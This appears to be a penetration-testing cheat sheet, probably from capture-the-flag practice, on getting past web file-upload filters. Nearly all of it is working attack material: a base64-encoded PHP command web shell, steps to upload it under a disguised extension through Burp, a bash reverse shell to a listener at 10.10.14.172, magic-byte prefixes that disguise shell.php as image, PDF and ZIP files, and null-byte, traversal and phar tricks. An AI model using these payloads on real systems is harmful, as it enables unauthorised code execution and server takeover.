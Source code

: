 ```
AddType application/x-httpd-php .gif
```
- ##### Content-Type
	- If expecting an image file, set Content-Type to image/jpeg or image/png and upload a php file
	- remove Content-Type and see if server defaults to a certain type
- Null byte injection
	- shell.php%00.jpg
- Special characters
	- shell.php;.jpg
	- shell.php:.jpg
- Directory Traversal
	- ../uploads/shell.php
- overwrite files
	- upload file with same name as existing, see if it overrides
Create file named dank.php with contents (base64 decode)
```
PD9waHAgc3lzdGVtKCRfUkVRVUVTVFsnY21kJ10pOyA/Pgo=
```
- rename file dank.php.jpg
```
cp dank.php dank.php.jpg
```
- upload dank.php.jpg to site, capture with burp and change name to dank.php
- open image of file in browser and add ?cmd=id to the end to see if code executes. if so, start `nc -lvnp 443` and run:
```
bash -c 'bash -i >%26 /dev/tcp/10.10.14.172/443 0>%261'
```
- or other shells
##### Magic Number
```
printf '\x89PNG\r\n\x1A\n' | cat - shell.php > shell.png
```
- create png
```
printf '\xFF\xD8\xFF\xE0\x00\x10JFIF\x00' | cat - shell.php > shell.jpg
```
- creates jpg
```
printf 'GIF89a' | cat - shell.php > shell.gif
```
- creates gif
```
printf 'BM' | cat - shell.php > shell.bmp
```
- bmp
```
printf '\x49\x49\x2A\x00' | cat - shell.php > shell.tif
```
- tif
```
printf '%PDF-1.4\n' | cat - shell.php > shell.pdf
```
- pdf
```
printf '\x50\x4B\x03\x04' | cat - shell.php > shell.zip
```
- zip
If none of the changes above work individually, try combination. For example:
- convert to `shell.png` and when uploading change to `shell.php.png` in burp
If upload appends .php to end of file, can use phar
- create shell.php file containing `<?php phpinfo(); ?>`
```
zip shell.phar shell.php
```
- creates phar zip containing shell.php
	- can be accessed via url via phar://path/to/archive.phar/internal/path/to/file.php